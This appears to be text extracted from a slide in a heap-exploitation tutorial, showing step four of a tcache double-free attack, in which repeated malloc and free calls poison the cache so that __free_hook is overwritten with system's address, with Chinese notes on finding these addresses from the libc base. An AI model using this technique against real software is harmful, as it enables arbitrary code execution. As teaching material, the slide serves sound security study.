

free_hook
system_addr
Step4 ： Double Free in tcache bin

malloc(0x70)
--> 'eeeeeeeee'

free()
free()

malloc(0x70)
--> p64(free_hook_addr)

malloc(0x70)
--> 'fffffffff'

malloc(0x70)
--> p64(system_addr)
free_hook： free函数调用这里
和其他函数一样，通过libc偏移+libc基址得到